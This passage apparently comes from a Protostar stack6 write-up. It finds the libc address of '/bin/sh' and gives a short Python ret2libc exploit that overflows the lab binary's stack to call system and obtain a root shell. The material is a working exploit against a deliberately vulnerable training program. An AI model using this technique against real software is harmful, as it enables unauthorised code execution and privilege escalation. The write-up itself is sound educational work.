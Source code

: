 ```
0xb7fba23f:      "KIND in __gen_tempname\""
```

Another way to find is by getting the offset of the string from libc's address. 
```
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

address of /bin/sh = 0xb7e97000 + 0x11f3bf = 0xb7fb63bf

Lets use these to craft the exploit.
```python
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV'
call_system = struct.pack("I", 0xb7ecffb0)
ret_of_system = 'AAAA'
bin_sh = struct.pack("I", 0xb7fb63bf)

print padding + call_system + ret_of_system + bin_sh
```

We will get a root shell by running this script with cat
`(python /home/user/stack6/exploit.py; cat) | ./stack6`

![ret2libc]({{site.url}}{{site.baseurl}}/images/protostar/stack6/ret2libc.png)






